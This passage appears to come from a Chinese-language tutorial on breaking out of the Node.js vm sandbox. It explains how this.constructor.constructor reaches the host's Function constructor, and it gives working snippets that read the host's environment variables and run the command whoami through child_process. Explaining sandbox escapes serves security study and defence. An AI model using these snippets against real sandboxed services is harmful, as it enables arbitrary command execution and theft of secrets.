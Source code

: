 ```js
const vm = require('vm');
const sandbox = {};
const script = new vm.Script("this.constructor.constructor('return this.process.env')()");
const context = vm.createContext(sandbox);
env = script.runInContext(context);
console.log(env);
```

执行以上两个例子之后可以获取到主程序环境中的环境变量（两个例子代码等价）

创建vm环境时，首先要初始化一个对象 sandbox，这个对象就是vm中脚本执行时的全局环境context，vm 脚本中全局 this 指向的就是这个对象。

因为`this.constructor.constructor`返回的是一个`Function constructor`，所以可以利用Function对象构造一个函数并执行。(此时Function对象的上下文环境是处于主程序中的) 这里构造的函数内的语句是`return this.process.env`，结果是返回了主程序的环境变量。

配合`chile_process.exec()`就可以执行任意命令了：

```js
const vm = require("vm");
const env = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('whoami').toString()`);
console.log(env);
```